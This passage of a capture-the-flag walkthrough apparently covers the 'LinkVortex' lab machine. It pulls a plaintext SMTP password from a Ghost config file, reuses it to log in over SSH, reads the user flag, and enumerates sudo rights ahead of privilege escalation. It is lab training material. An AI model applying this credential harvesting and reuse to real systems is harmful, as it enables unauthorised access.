 ```jsx
# Copy the config
COPY config.production.json /var/lib/ghost/config.production.json

# Prevent installing packages
RUN rm -rf /var/lib/apt/lists/* /etc/apt/sources.list* /usr/bin/apt-get /usr/bin/apt /usr/bin/dpkg /usr/sbin/dpkg /usr/bin/dpkg-deb /usr/sbin/dpkg-deb

# Wait for the db to be ready first
COPY wait-for-it.sh /var/lib/ghost/wait-for-it.sh
COPY entry.sh /entry.sh
RUN chmod +x /var/lib/ghost/wait-for-it.sh
RUN chmod +x /entry.sh

ENTRYPOINT ["/entry.sh"]
CMD ["node", "current/index.js"]
```

Inside `/var/lib/ghost/config.production.json`, we found a username and password.  

Using these credentials, we logged in via SSH and successfully obtained the user flag. 

```jsx
 "mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
```
And we found the user flag here! 

```jsx
┌──(venv)─(kali㉿kali)-[~/linkvortex.htb]
└─$ ssh bob@linkvortex.htb
bob@linkvortex.htb's password: 

Last login: Wed Feb 12 15:32:47 2025 from 10.10.16.36
bob@linkvortex:~$ ls
furious5.png  hoge.txt  shadow  user.txt
bob@linkvortex:~$ cat user.txt 
************3e5ce5f69ec942e47fdc
bob@linkvortex:~$ 

```
For privilege escalation, we run `sudo -l` to check the commands we can execute with sudo permissions.

```jsx
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png

```
Bob can run `/opt/ghost/clean_symlink.sh` as root using `/usr/bin/bash` without needing a password.  
